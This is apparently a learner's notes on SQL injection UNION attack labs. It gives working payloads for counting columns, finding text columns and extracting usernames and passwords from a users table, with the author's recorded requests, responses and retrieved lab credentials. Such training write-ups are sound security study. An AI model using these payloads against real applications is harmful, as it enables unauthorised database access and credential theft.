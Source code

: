# Retrieving data from other database tables

In cases where the results of na SQL query are returned within the application's responses, an attacker can leverage an SQL injection vulnerability to retrieve data from other tables within the database.

UNION keyword could execute additional SELECT query and append the results to the original query.

If an application executes the following query:

``` SELECT name, description FROM products WHERE category = 'Gifts' ```

then an attacker can submit the input:

``` ' UNION SELECT username, password FROM users-- ```

This will cause the application to return all usernames and passwords along with the names and ddescriptions of products.

For a UNION query to work, two key requirements must be met:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

## Determining the number of columns required in an SQL injection UNION attack

The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.

``` 
' ORDER BY 1--
' ORDER BY 2--
ETC. 
```

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values.

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
ETC.
```

It says Error = incorrect number of columns or it can says 200 response code = correct number of columns.

### SQL injection UNION attack, determining the number of columns returned by the query

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the *category* parameter, giving it the value ``` '+UNION+SELECT+NULL-- ```. Observe that en error occurs.
3. Modify the *category* parameter to add an additional column containing a null value:
``` '+UNION+SELECT+NULL,NULL--```
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.

**My comment**

I need to write behind gifts 'UNION select NULL-- and when I select this and press ctrl+u then it looks like that:

``` GET /filter?category=Tech+gifts'+UNION+select+NULL-- HTTP/1.1               500 Internal Server Error``` 

``` GET /filter?category=Tech+gifts'+UNION+select+NULL,+NULL-- HTTP/1.1         500 Internal Server Error```

```GET /filter?category=Tech+gifts'+UNION+select+NULL,+NULL,+NULL-- HTTP/1.1   200 OK```

Second option is to try in browser and that is write ```' ORDER BY 1```

## Finding columns with a useful data type in an SQL injection UNION attack

Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

This one will find out if the table contains a string:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the data type of a column is not compatible with string data, the injected query will cause a database error.

### SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. 

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the *category* parameter:

    ``` '+UNION+SELECT+NULL,NULL,NULL-- ```

3. Try replacing each null with the random value provided by the lab, for example: 

    ``` '+UNION+SELECT+'abcdef',NULL,NULL--```

4. If an error occurs, move on to the next null and try that instead.

**My comment**

``` ?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error```

``` ?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK```

## Using an SQL injection UNION attack to retrieve interesting data

If I know that the table contains string I can use this query to find a password:

```' UNION SELECT username, password FROM users--```

### SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter.

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

    ``` '+UNION+SELECT+'abc','def'-- ```

3. Use the following payload to retrieve the contents of the *user* table:

    ``` '+UNION+SELECT+username,+password+FROM+users-- ```

4. Verify that the application's response contains usernames and passwords.

**My comment**

``` ?category=Pets'+UNION+SELECT+username,password+FROM+users--```

## Retrieving multiple values within a single column

Multiple values can be easily retrieve together within single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.

``` ' UNION SELECT username || '~' || password FROM users--```

The result from the query: administrator~s3cure

### SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. 

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the *category* parameter:

    ``` '+UNION+SELECT+NULL,'abc'--```

3. Use the following payload to retrieve the contents of the users table:

    ```'UNION SELECT NULL, username || '~' || password FROM users--```

4. Verify that the application's response contains usernames and passwords.

Credentials retrieved: administrator~5v82nt